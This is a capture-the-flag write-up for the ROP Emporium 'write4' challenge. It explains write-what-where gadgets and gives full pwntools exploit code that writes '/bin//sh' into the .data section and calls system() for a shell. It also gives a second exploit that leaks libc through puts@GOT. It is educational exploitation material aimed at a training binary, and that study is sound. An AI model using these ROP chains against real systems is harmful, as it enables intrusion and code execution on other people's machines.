



# write4

Link: https://ropemporium.com/challenge/write4.html

Goal: *We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*

-----------------------

First, we check the offset is still the same sending 41 "A" characters:


## 3.1. Write-What-Where Gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." ([source](https://trustfoundry.net/basic-rop-techniques-and-tricks/))

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write432 | grep mov | grep "\["
```



We have these *Write-What-Where* gadgets:

- *mov dword ptr [edi], ebp* (0x08048670) -> **writewhatwhere = 0x08048670**

Then we search for gadgets that could control EDI and EBP:

- *pop edi ; pop ebp ; ret* (0x080486da) -> **pop_edi_pop_ebp = 0x080486da**




Next we need to figure out where to write in memory. The best option would be the .data segment. Let’s get the address of the “.data” section in the binary. Also, the .bss section is writable:


Let us take as writable memory address the address 0x804a028, where .data starts -> **writable_memory = 0x804a028**


```
mov [edi], ebp

mov [0x804a028], "/bin//sh"
```


As we are working with 32 bits, we will first send "/bin" and then "//sh" (4 characters each):

```
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
```

After this, knowing the string "/bin//sh" will be located in *writable_memory*, we can make the same that in the previous challenge "split32": 

```
rop += p32(system) + p32(exit) + p32(writable_memory)
```

Finally, the exploit is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'write432'
p = process('./'+binary_name)
elf =  ELF(binary_name)

system = elf.sym["system"] 
log.info("System address (.plt): " + hex(system))
pop_ebp         = 0x080486db
pop_edi_pop_ebp = 0x080486da
writewhatwhere  = 0x08048670
writable_memory = 0x804a028
exit            = 0x080484e8

rop =  "A"*44
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

And it works!:



--------------


## 3.2. Libc leakage approach

The second approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

```
payload = [140 bytes buffer] + junk + [main()] + [puts@got]
```

#### Rop 1: Leaking puts address

```
OFFSET = "A"*44
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p32(PUTS_PLT) + p32(MAIN_PLT) + p32(puts_GOT)
```

#### Calculating libc base address

```
leak = u32(p.recvline()[:4])
libc.address = leak - libc.symbols["puts"]
```

#### Rop 2: system("/bin/sh")

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = "\x12"*4 # this can be anything

rop2 = OFFSET + p32(SYSTEM) + EXIT + p32(BINSH)
```

---------------

Similar ROPs:

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- About wruite-what-where: https://trustfoundry.net/basic-rop-techniques-and-tricks/

- Another write-what-where exploit: https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/

- Libc leakage: https://medium.com/hackstreetboys/encryptctf-2019-pwn-write-up-4-of-5-6fc5779d51fa

